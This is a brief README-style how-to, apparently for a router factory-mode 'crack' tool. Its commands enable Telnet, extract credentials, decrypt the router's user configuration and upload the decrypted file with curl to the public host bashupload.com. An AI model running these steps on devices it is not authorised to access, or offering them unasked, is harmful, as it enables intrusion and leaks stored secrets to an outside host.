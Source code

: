 ## How-To

Enable Telnet & Get Credentials:
```
factorymode_crack.exe -l xxx open -i <routerip> -u <adminuser> -pw <adminpassword>
```

Access Telnet:
```
telnet <routerip>
```

Decrypt Configs:
```
sendcmd 1 DB decry /userconfig/cfg/db_user_cfg.xml
```

Upload Configs:
```
curl https://bashupload.com/db_user_cfg.xml -kT /tmp/debug-decry-cfg
```

Credits:

- https://www.jarvisw.com/?p=1517
- https://github.com/ixmu/Note/blob/578b7e99dd80022c0ee8fa14a8851d8107279320/%E5%AE%B6%E5%BA%AD%E5%AE%BD%E5%B8%A6%E9%85%8D%E7%BD%AEH2-3E.md
